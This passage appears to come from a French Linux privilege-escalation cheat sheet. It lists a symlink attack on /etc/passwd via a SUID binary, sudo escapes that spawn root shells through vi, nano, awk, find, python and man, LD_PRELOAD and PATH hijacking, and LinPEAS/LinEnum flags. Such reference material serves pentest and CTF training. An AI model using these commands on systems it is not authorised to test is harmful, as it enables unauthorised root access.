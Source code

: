 **3.4 - Symlink Attack**
```bash
# Si le binaire écrit dans un fichier prédictible
ln -sf /etc/passwd /tmp/target_file
./<binary_suid>
```

### Sudo exploitation
| Commande autorisée | Technique |
|-------------------|-----------|
| `sudo vi /path/file` | `:!sh` dans vi |
| `sudo nano /path/file` | `Ctrl+R Ctrl+X` puis `reset; sh 1>&0 2>&0` |
| `sudo awk` | `sudo awk 'BEGIN {system("/bin/sh")}'` |
| `sudo find` | `sudo find . -exec /bin/sh \; -quit` |
| `sudo python` | `sudo python -c 'import os; os.system("/bin/sh")'` |
| `sudo man` | `man ls` puis `!/bin/bash` |

### Variables d'environnement
| Variable | Exploitation |
|----------|--------------|
| `LD_PRELOAD` | Injection de bibliothèque dynamique |
| `LD_LIBRARY_PATH` | Détournement de bibliothèque |
| `PATH` | Hijacking de commandes |

---

## 🔍 8. Outils d'énumération automatisés

### LinPEAS
| Commande | Description |
|----------|-------------|
| `./linpeas.sh` | Scan complet automatisé |
| `./linpeas.sh -a` | Scan avec tous les checks |
| `./linpeas.sh -s` | Scan rapide |
| `./linpeas.sh -P` | Affichage avec couleurs |

### LinEnum
| Commande | Description |
|----------|-------------|
| `./LinEnum.sh` | Énumération complète |
| `./LinEnum.sh -t` | Mode thorough |
| `./LinEnum.sh -k keyword` | Recherche de mots-clés |
